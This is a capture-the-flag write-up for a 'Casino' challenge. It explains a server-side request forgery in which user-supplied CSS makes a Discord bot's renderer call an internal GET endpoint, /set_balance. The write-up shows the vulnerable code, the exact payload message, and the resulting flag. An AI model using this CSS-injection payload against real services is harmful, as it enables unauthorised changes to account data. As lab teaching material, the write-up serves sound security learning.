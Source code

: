 # Casino

Can you make $1000 off Casino#4970 on our Discord server? (say `$help` to view commands)

Attachments: `casino.zip`

## Solution

Exploit: SSRF to `/set_balance` endpoint using CSS

The web server trusts input from the Discord bot:
```javascript
function internal (req, res, next) {
  if (
    req.socket.remoteAddress === '172.16.0.11' ||
    req.socket.remoteAddress === '::ffff:172.16.0.11'
  ) {
    return next()
  }

  return res.status(403).end()
}
```

The Discord bot visits `/badge` and screenshots it when we do the `!badge`
command. It also allows us to add arbitrary CSS, though angle brackets are escaped:
```javascript
const css = (req.query.css || '').replace(/</g, '&lt;').replace(/>/g, '&gt;')
```

We can't escape from the `<style>` tag, but we can still make GET requests using:
```css
background-image: url(http://malicious)
```

Also the challenge author is an idiot and `/set_balance` is conveniently a GET
endpoint. So all we have to do is send this message
```
!badge `#badge { background-image: url(http://172.16.0.10:3000/set_balance?user=qxxxb%238938&balance=1000) }`
```

Then `!flag` to get `CCC{maybe_1_sh0uldv3d_us3d_P0ST_in5t3ad_of_G3T}`
